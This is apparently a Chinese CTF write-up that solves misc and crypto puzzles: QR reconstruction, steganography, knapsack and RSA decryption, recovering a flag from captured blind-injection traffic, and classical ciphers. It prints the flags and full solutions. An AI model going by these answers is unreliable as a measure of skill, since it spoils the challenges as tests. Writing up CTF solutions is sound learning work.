str="1111111001110111001111111100000100001101010100000110111010011100101010111011011101010110000101011101101110101010111010101110110000010011001101010000011111111010101010101111111000000000100101000000000011000111011010110000110001000000010100001010111100001011110101100111110011100101101001100101010010111000101011100100101101001111110000110101011110011010000010010001011100001111000010011101010110001100101110101000111011111010100000000110001101000110001111111011001100101010101100000101111001110001100010111010011100011111101111011101001101111011010011101110100010011010010010110000010100011010011110011111111011011100101010001"
i = 0
for y in range (0,MAX):
    for x in range (0,MAX):
        if(str[i] == '1'):
            img.putpixel([x,y],(0, 0, 0))
        else:
            img.putpixel([x,y],(255,255,255))
        i = i+1
img.show()
img.save("flag.png") 
```

扫码得到flag

## 粗心的佳佳

下载得到3个文件

预期解法应该是根据图片写出脚本，把混淆过的二维码恢复，我发现照着`password.png`也能看出原本的二维码大概长啥样

手动修复得到

扫码得到`IXE1VDYmMjk=`,base64解码得到压缩包密码`!q5T6&29`

从`password.png`中foremost分离出压缩包，解压得到文本内容如下

目前知道这是`背包加密`，[翅膀师傅的博客](https://lazzzaro.github.io/2020/05/13/crypto-%E5%85%B6%E4%BB%96%E5%8A%A0%E5%AF%86%E7%AE%97%E6%B3%95/)有提到，根据师傅的提示，得知mumuzi师傅是参考[这篇博客](https://blog.csdn.net/passer_by_A/article/details/78531569)出的题目，可以在博客给的c语言代码基础上稍加改动，这里附上八神写的Python脚本：

```
from gmpy2 import invert

K = 1074
S = 43
inv = invert(S, K) 

def unpack(num):
    A = [175, 87, 44, 21, 11, 5, 3, 1]
    res = ''
    for i in range(8):
        if num >= A[i]:

            res = res + '1'
            num -= A[i]
        else:

            res = res + '0'
    return int(res, 2)

C = [1817, 3100, 2240, 868, 172, 1816, 2025, 50, 172, 2289, 1642, 2067, 1337, 1681, 655, 2588, 691, 2591, 1595, 1552, 2498, 1513, 609, 1075, 602, 1420, 2720, 1042, 947, 2160, 731]

tmp = []
for i in C:
    tmp += [unpack(i * inv % K)]

for i in range(1, len(tmp)):
    print(chr(tmp[i] ^ C[i-1] % 256), end = '') 
```

## 简单套娃

这题是八神出的，致敬套娃带师Mumuzi

用winhex打开图片，发现有两个jpg的文件头，手动把第二个FFD8FFE0直到结尾的数据提取出来，另存为一个jpg文件。

发现得到的新图片和原图看起来好像一样，于是用`Stegsolve`打开新得到的图片，依次查看图层可以看到flag，一个图层看不清可以尝试其他的


> flag{Mumuzi_the_God_of_Matryoshka}

## 闹酒狂欢

下载得到一串像是十六进制的文本

```
EF81B5EF81B3EF81A9EF81AEEF81A7EF80A0EF8193EF81B9EF81B3EF81B4EF81A5EF81ADEF80BB0A0AEF81AEEF81A1EF81ADEF81A5EF81B3EF81B0EF81A1EF81A3EF81A5EF80A0EF8183EF81AFEF81AEEF81B3EF81AFEF81ACEF81A5EF8181EF81B0EF81B0EF80B10AEF81BB0AEF80A0EF80A0EF80A0EF80A0EF81A3EF81ACEF81A1EF81B3EF81B3EF80A0EF8190EF81B2EF81AFEF81A7EF81B2EF81A1EF81AD0AEF80A0EF80A0EF80A0EF80A0EF81BB0AEF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF81B3EF81B4EF81A1EF81B4EF81A9EF81A3EF80A0EF81B6EF81AFEF81A9EF81A4EF80A0EF818DEF81A1EF81A9EF81AEEF80A8EF81B3EF81B4EF81B2EF81A9EF81AEEF81A7EF819BEF819DEF80A0EF81A1EF81B2EF81A7EF81B3EF80A90AEF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF81BB0AEF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF8183EF81AFEF81AEEF81B3EF81AFEF81ACEF81A5EF80AEEF8197EF81B2EF81A9EF81B4EF81A5EF818CEF81A9EF81AEEF81A5EF80A8EF80A2EF8182EF81B5EF81A7EF81ABEF81B5EF81BBEF8197EF80B0EF81B2EF81A4EF819FEF80B1EF81B3EF819FEF81B4EF81A8EF81A5EF819FEF81A2EF81A5EF80B5EF81B4EF819FEF8189EF8184EF8185EF81BDEF80A1EF80A2EF80A9EF80BB0A0AEF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF80A0EF81BD0AEF80A0EF80A0EF80A0EF80A0EF81BD0AEF81BD 
```

转字符，得到一堆阴间字符(**后面发现这个在线网站不行**)

这个怪怪的题目名肯定是某种提示，百度`闹酒狂欢`没有线索，回想起上次做棋圣师傅的题，于是把题目名翻译成英文`wingding`，再次百度，发现这是一种字体，word中就有

测试了几次，发现两种方法：

### 方法一

先到[在线网站](http://www.bejson.com/convert/ox2str/)把hex转str，然后新建一个word文档，把得到的结果复制进去，字体换成`SansSerif`，得到


### 方法二

前面步骤一样，最后一步把字体换成`Webdings`,然后把结果复制，放到qq的对话框里，得到


## 知否

阿狸师傅的题，之前放在ctfshow平台的，当时也在群里也看到了狸师傅给的提示

用stegsolve打开，在Red和Green通道的最低位发现

先写个小脚本确认左边这一块的宽度为**80**，高度为**715**；同时发现R通道和G通道的值基本是**0或1**，但是有少部分其他数字，结合原图中的“**绿肥红瘦**”是提示`G通道取余后的值大于R通道取余后的值`，这是一个条件，满足则值为1，不满足则值为0

脚本：

```
from PIL import Image
img = Image.open('file.png')
f=open("1.txt","w")
flag=""
for i in range(80):
    for j in range(715):
        x=img.getpixel((i,j))
        if x[0]%2 < x[1]%2:
            flag+="1"
        else:
            flag+="0"
        if len(flag)==8:
            s=hex(int(flag,2))[2:].zfill(2)
            f.write(s)
            flag=""
f.close() 
```

将得到的十六进制转为png图片即可得到flag

## blind_injection

下载得到一个sql盲注的流量包，导出http对象，大小为704byte的包是正确的，将其全部导出

我本来是想把这些包全部保存，然后写脚本提取出flag的…后来发现好像直接看更快

flag：`flag{e62d3da86fe34a83bbfbdb9d3177a641}`

## blind_injection2

先把HTTP对象全部导出，存于一文件夹下

然后脚本直接梭

```
 import os
from urllib.parse import unquote
import re

def getflag():
    getname()
    flag=""
    l=[]
    d={}
    renum=re.compile(r'\d+')  
    f=open("name.txt","r").readlines()
    for line in f:
        line = line[4:]  
        if "substr" in line and "=" in line:  
            l=renum.findall(line)
            if l[1] == "2":
                d[int(l[3])]=chr(int(l[5]))
    for i in range(len(d)):
        flag += d[i+1]
    return flag

def getname():
    filePath = r'C:\Users\Desktop\123' 
    f = open("name.txt", "w")
    for a, b, c in os.walk(filePath):
        for i in c:
            f.write(unquote(i, 'utf-8'))  
            f.write("\n")
    f.close()
if __name__ == '__main__':
    print("flag is:",getflag()) 
```

## 北有楠木

用**010editor**打开得到的jpg，在尾部发现大量数据

继续翻看，发现其中有`ahu.rar`、`hint.txt`、`key.png`三个文件，并且出现了很多个7z，根据之前做题的经验(参考题目`Find me`)

把下列7个位置的数据改成`504B`，再把修改后的数据导出，新建为一个zip文件


hint.txt:

> 5Y+k6ICB55qE5paH5a2X

base64解密得到: `古老的文字`

key.png:

这个是甲骨文里的数字，对照图标得到压缩包密码：`14582978`

拿到一个bmp，先用stegslove查看，没有线索，然后尝试`wbs43open`

解密出的文件放在winhex里分析，初看像是一堆乱码

尝试搜索flag、key等关键字，找到key:`988%^&*cool`

不得不说，有套神内味了

这里是AES加密，在线解密的时候出了点问题，于是用`openssl`解密

解出的内容，[音符解密在线网站](https://www.qqxiuzi.cn/bianma/wenbenjiami.php?s=yinyue)

> ∮♩§∮♫♯∮♪♬∮♪∮∮♫♯∮♫‖∮♩‖∮♪♩∮♫♬∮♫♬∮¶♬∮♫♬∮♭§∮¶♬∮♩§∮♪♩∮¶§∮♫♯∮♫§∮♪♯∮¶♭♪‖∮∮∮¶∮¶♬§¶♬∮♪♭∮♪♫∮¶♬∮♭♯∮♪♭∮♫§∮♪♩∮♫¶∮♪♩∮♫♬♪‖♪§¶♯∮♪♭∮♪♬∮♩∮§==
> ♬§¶♪¶♪¶♯♯=

这里有一个坑点，直接解密的话会得到一堆乱码，因为这里其实是两条加密信息，看结尾的`=`也能分辨出来

先无密码解密第二条，得到第一条的密码`cool`，再解密第一条

拿到flag

## 1和0的故事

题目给了一串由1和0组成的字符串，猜想是转二维码，直接转得到的二维码不完整，扫不出来。

手动改，得到

```
1111111001110010001111111100000100001111010100000110111010011100010010111011011101010111100001011101101110101010101000101110110000010011000101010000011111111010101010101111111000000000100000110000000011000111011101101000110000001000010110010010010100010011110100001110111001100111101001010110010010011000001001100001001101000111100011111101110010100010110111110011011111101111000110110010010101101100100011110011111111111011100000000101100011000101001111111010010100101010001100000101010101010001100110111010001001111111100101011101000011001011110111101110100100110010010000110000010110000110110110011111111011010000101110101 
```

然后转二维码

```
import PIL
from PIL import Image
MAX = 25  
img = Image.new("RGB",(MAX,MAX))
str='1111111001110010001111111100000100001111010100000110111010011100010010111011011101010111100001011101101110101010101000101110110000010011000101010000011111111010101010101111111000000000100000110000000011000111011101101000110000001000010110010010010100010011110100001110111001100111101001010110010010011000001001100001001101000111100011111101110010100010110111110011011111101111000110110010010101101100100011110011111111111011100000000101100011000101001111111010010100101010001100000101010101010001100110111010001001111111100101011101000011001011110111101110100100110010010000110000010110000110110110011111111011010000101110101'
i = 0
for y in range (0,MAX):
    for x in range (0,MAX):
        if(str[i] == '1'):
            img.putpixel([x,y],(0, 0, 0))
        else:
            img.putpixel([x,y],(255,255,255))
        i = i+1
img.show()
img.save("flag.png") 
```

再扫描即可得到flag

这题也可以去[在线网站](https://merricx.github.io/qrazybox/?tdsourcetag=s_pctim_aiomsg)手动拼出正确的二维码

## easy_nbt

随便翻了一下，发现好像是`Minecraft`的存档文件，虽然这个游戏我不玩…

根据题目名，找到一款工具[NBTExplorer](https://github.com/jaquadro/NBTExplorer/releases/)

然后用这个工具打开level.dat

具体位置如下(flag在玩家的书中最后一页，Inventory 里面就是玩家背包内的物品)
翻到下面就可以看到flag

# Cyrpto

## Double

n可以拆成很多个小素数

之前做过三连乘的欧拉函数，形如`(p−1)*(q−1)*(r−1)`

这里也相差不大

```
from Crypto.Util.number import *
from gmpy2 import *

lt = [2,2,3,3,13,101,443,1087,15527,47363,111309491243,5738160242986813,118881536167887307517887651928306109231371669715927208908931577713837,2067526976195544603847619621425435706797374170280528431947550231604621041865531599319428120598265860512130517815755608596553793]

n = 2627832721798532654645633759787364870195582649392807630554510880534973280751482201937816738488273589173932960856611147584617677312265144131447658399933331448791094639659769069406481681017795446858858181106274806005669388289349727511470680972
e = 65537
c = 96830301447792999743877932210925094490214669785432172099311147672020980136112114653571739648595225131425493319224428213036136642899189859618195566355934768513439007527385261977662612094503054618556883356183687422846428828606638722387070581

phi = 1
for i in lt:
    phi *= (i-1)
d = invert(e,phi)

m = pow(c,d,n)
flag = long_to_bytes(m)
print(flag) 
```

## 道友不来算一算凶吉？

原题：https://blog.csdn.net/weixin_44110537/article/details/107494966

改一下脚本就行

## 简单的rsa

先反编译

```
import gmpy2
from Crypto.Util.number import *
from binascii import a2b_hex, b2a_hex
flag = '******************'
p = 0xED7FCFABD3C81C78E212323329DC1EE2BEB6945AB29AB51B9E3A2F9D8B0A22101E467L
q = 0xAD85852F9964DA87880E48ADA5C4487480AA4023A4DE2C0321C170AD801C9L
e = 65537
n = p * q
c = pow(int(b2a_hex(flag), 16), e, n)
print(c)
c = 0x75AB3202DE3E103B03C680F2BEBBD1EA689C8BF260963FE347B3533B99FB391F0A358FFAE5160D6DCB9FCD75CD3E46B2FE3CFFE9FA2E9508702FD6E4CE43486631L 
```

和`[HDCTF2019]basic rsa`一模一样

```
import gmpy2
import base64
from Crypto.Util.number import *
p = 112642194654268090332522091159424262740464136131997744454746325563669794921845482599
q = 19161629072279418019517626544923006382220342887636329814814280445997875657
e = 65537
n = p * q
c = 1577679756144257637785387124594202127915325962911212570348328494239361414791124589232067501431611059590705430452148241507167964864831810956667579596498560561

d = gmpy2.invert(e,(p-1)*(q-1))
m = pow(c,d,n)

print(base64.b64decode(long_to_bytes(m))) 
```

## 7+1+0


注意到偶数位字符都是正常的，试着读一下奇数位字符的ascii值

> 226 231 245 183 233 178 226 244

发现都大于128，所以处理一下(这里是)

```
s="âuçkõ{·bét²8âiô}"

for i in range(len(s)):
    if i%2==0:
        x=ord(s[i])%128
        print(chr(x),end="")
    else:
        print(s[i],end="") 
```

结合作者的提示，猜测可能预期是这样的

```
s="âuçkõ{·bét²8âiô}"
for i in s:
    x=bin(ord(i))[2:].zfill(8)
    print(chr(int(x[1:],2)),end="") 
```

因为这里每个字符对应的最大ascii值是245，所以统一转为**8bit**,可以更直观得看到奇数位字符的最高位是1，而偶数位字符对应的是0。猜测提示的`7+1+0`就是把最高位(7号位)的1替换成0，然后再转字符

> 11100010
> 01110101
> 11100111
> 01101011
> 11110101
> 01111011
> 10110111
> 01100010
> 11101001
> 01110100
> 10110010
> 00111000
> 11100010
> 01101001
> 11110100
> 01111101

## 这是个盲兔子,竟然在唱歌!

盲：[https://www.qqxiuzi.cn/bianma/wenbenjiami.php?s=mangwen](https://www.qqxiuzi.cn/bianma/wenbenjiami.php?s=mangwen)
兔子：[http://www.jsons.cn/rabbitencrypt/](http://www.jsons.cn/rabbitencrypt/)
唱歌：[https://www.qqxiuzi.cn/bianma/wenbenjiami.php?s=yinyue](https://www.qqxiuzi.cn/bianma/wenbenjiami.php?s=yinyue)

## 缝合加密

hint.txt中说`钥匙2先放放，给的密文与钥匙1有联系`

那就先看钥匙1

看组成规律，很明显和键盘有关系，但是第一租的`qwedc`既不能组成一个字母或数字，也没有围住一个字母或者数字，但是结合前面提到的`pig`，推测这里是[猪圈密码](http://www.metools.info/code/c90.html)

第一组的`qwedc`对应的是
以此类推，最后解出一堆怪怪的字符

拿去百度，发现这里提示的是`维吉尼亚密码`，猜想这一串字符就是对应的秘钥

> giovanbattistabellaso

但是直接解密是不对的，这里还要考虑前面的那些话。注意到前面提到了`num(e)`，这里对应的值应该是`5`，前面还提到了fence，应该要对原密文进行`栅栏解密`，重点就是栏数是多少。

其实完全可以爆破，但是还是考虑一下出题人的感受，注意到当pig的数量为1时，栏数为8，数量为2时，栏数为10，现在的数量是5，对应`栏数是16`

先对密文进行一次栏数为16的[栅栏密码](https://www.qqxiuzi.cn/bianma/zhalanmima.php)解密，接着[维吉尼亚密码](https://www.qqxiuzi.cn/bianma/weijiniyamima.php)解密
得到的结果base64解码一次得到：

> Aes is U2FsdGVkX1/n6GI+9oBt9n5P+DnWC9+FL4876pqvIuUKlzXXRyA+5hyYB3Tc1eWo
> KRj3HICgP9TamNDTQlgUpw==

下面就是解这个AES,对应秘钥在**钥匙2**，用[bugku的base100解密工具](https://ctf.bugku.com/tool/base100)

然后得到flag


## Math&English

都是些基础题
得到一些数字：

> 21 33 1 22 3 44 54 5 1 35 54 3 35 41 52 13

出题人给了hint2：https://baike.baidu.com/item/%E5%85%83%E9%9F%B3/2811?fr=aladdin，让我们往`元音`上想

然后找到了一篇[元音密码](http://www.tuilixy.net/forum.php?mod=viewthread&tid=3538&mobile=no)的文章

简单替换一下得到flag：`bugku{yuanyinpwd}`

## 一段新闻

先到[在线网站](http://www.atoolbox.net/Tool.php?Id=829)解零宽字符

社会主义核心价值观编码，解码得到flag

提交这个会显示错误，管理员那边把wp里打过码的flag设置成正确flag了，等修复吧

## 你喜欢下棋吗

这个师傅可喜欢下棋了，一口气出了好多跟围棋相关的题

下载得到一个加密的压缩包和有提示信息的txt:

> 你喜欢下棋吗？
> 解压密码为小写
> 4423244324433534315412244543

这里的话是棋盘密码的一种–`波利比奥斯方阵密码`

用[在线工具](http://www.atoolbox.net/Tool.php?Id=913)解密(秘钥随便填)，得到`thisispolybius`

解出的flag.txt:

> 一种5bit的编码
> bugku里面的内容为小写
> bugku{11111 11001 00011 00111 01001 11011 10110 11111 10000 01110 11011 10110 11111 01001 00001}

这个是[博多码](https://my.oschina.net/dubenju/blog/823359)，对照表格即可

## 你以为是md5吗

给了一串长度为**35**的字符串

> bc**i**177a7a9c7**u**df69c248647b4dfc6fd84**o**

md5值由0-9和a-f组成，长度为32，删去多余的三个字符得到

> bc177a7a9c7df69c248647b4dfc6fd84

[md5在线解密](https://www.somd5.com/)即可

## 把猪困在猪圈里

下载得到一个文本文件，很明显是[base64转图片](https://tool.jisuapi.com/base642pic.html)

解出的图片如下，使用[猪圈密码解密在线工具](http://www.metools.info/code/c90.html)得到flag


## 小山丘的秘密

下载得到一个文本

> bugku{PLGTGBQHM}
> 其中A=1，flag全为小写

和图片

由题目提示可知这是希尔(hill)密码，[解密在线工具](http://www.atoolbox.net/Tool.php?Id=914&ac=csdn)

一般情况下的字母表是`abcdefghijklmnopqrstuvwxyz`，A对应0、B对应1

这题明确说A是1，所以需要更换字母表为`zabcdefghijklmnopqrstuvwxy`

图中对应的数字为`1 2 3 0 1 4 5 6 0`，对应字母`abczadefz`

解密得到flag


## EN-气泡

给了一个文本

> xivak-notuk-cupad-tarek-zesuk-zupid-taryk-zesak-cined-tetuk-nasuk-zoryd-tirak-zysek-zaryd-tyrik-nisyk-nenad-tituk-nysil-hepyd-tovak-zutik-cepyd-toral-husol-henud-titak-hesak-nyrud-tarik-netak-zapad-tupek-hysek-zuned-tytyk-zisuk-hyped-tymik-hysel-hepad-tomak-zysil-nunad-tytak-nirik-copud-tevok-zasyk-nypud-tyruk-niryk-henyd-tityk-zyral-nyred-taryk-zesek-corid-tipek-zysek-nunad-tytal-hitul-hepod-tovik-zurek-hupyd-tavil-hesuk-zined-tetuk-zatel-hopod-tevul-haruk-cupod-tavuk-zesol-ninid-tetok-nasyl-hopid-teryl-nusol-heped-tovuk-hasil-nenod-titek-zyryl-hiped-tivyk-cosok-zorud-tirel-hyrel-hinid-tetok-hirek-zyped-tyrel-hitul-nyrad-tarak-hotok-cuvux

第一次见这种加密，题目名的气泡应该是加密方法的提示，但是百度了一波没找到，最后看到有人提示说这是`BubbleBabble`加密，使用工具`CaptfEncoder`

解密三次得到flag


## 抄错的字符

> 描述:老师让小明抄写一段话，结果粗心的小明把部分数字抄成了字母，还因为强迫症把所有字母都换成大写。你能帮小明恢复并解开答案吗：QWIHBLGZZXJSXZNVBZW

除此之外没有任何提示，只能一点点分析，小明把部分数字抄成了字母

对应下列几种可能:

```
大写字母:I->1 B->8 Z->2 S->5

下面的这些最后发现没用上
小写字母:q->9 i->1 b->6 l->1 z->2 s->5 
```

可以发现如果小明把部分数字抄成字母的时候，同时有大写和小写字母，很明显会产生冲突(**b和B**)，同时小写字母对应的情况更多更复杂，这题只有10分

所以先**只考虑把数字抄成大写字母对应的四种情况**，这四个大写字母在字符串里出现了`7`次，对应有`3^7`种可能性，所以原字符串的组成方式共有`12^2*3^7=314928`种

列出来的结果是由`大写字母`、`小写字母`和`数字`组成的，直接看看不出有什么意义，猜想是`base64加密`，这里就写脚本慢慢跑，最后得出正确的结果`QW1hbl92ZXJ5X2Nvb2w`

base64解密即可得到flag

## 黄道十二宫

wp同**2021年“春秋杯”新年欢乐赛–十二宫的挑衅**

flag{alphananke}

## 你懂我的乐谱吗？

直接给了一张图，我开始把这个当图片隐写去做的，后面才发现这不是杂项

前有棋圣师傅考围棋，现在又有师傅考乐谱了…

我不了解这个，拿去问了学音乐的同学，了解到这个是五线谱，还给我找了一张五线谱和简谱的对照表

貌似前进了一大步，但是这两个图看起来好像毫无关联，再次求助，下面原图翻译得来的简谱

对照表格，外面套一层`flag{}`,得到**假的flag**：

> flag{AGCBDGGACFFEDGGCCECCGB}

开始完全不知道哪里错了，后面偶然发现，如果用`1`代表`A`，`2`代表`B`，这样顺序排列，排到`5(上面加两个点)`代表`S`，因为只出现过这些音符

这样替换，得到:

> FLAGISEMARKCISSOACHHLG
> 即：flag{EMARKCISSOACHHLG}